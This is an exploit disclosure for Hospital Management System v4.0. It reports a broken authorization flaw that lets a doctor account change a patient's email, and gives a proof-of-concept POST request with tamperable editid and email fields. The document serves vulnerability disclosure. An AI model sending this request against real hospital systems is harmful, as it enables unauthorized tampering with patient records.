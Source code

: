 # Exploit Title: Hospital Management System v4.0 - Broken Object Property Level Authorization(BOPLA)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from BOPLA - Broken Access Control Vulnerability allowing attacker doctor to update the email of patient that cannot modify in UI.

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /hospital/hms/doctor/edit-patient.php?editid=2(CHANGE HERE) HTTP/1.1
...

patname=user1p&patcontact=111112&patemail=user1p%40test.com(CHANGE HERE)&gender=Male&pataddress=bbb&patage=20&medhis=0&submit=
```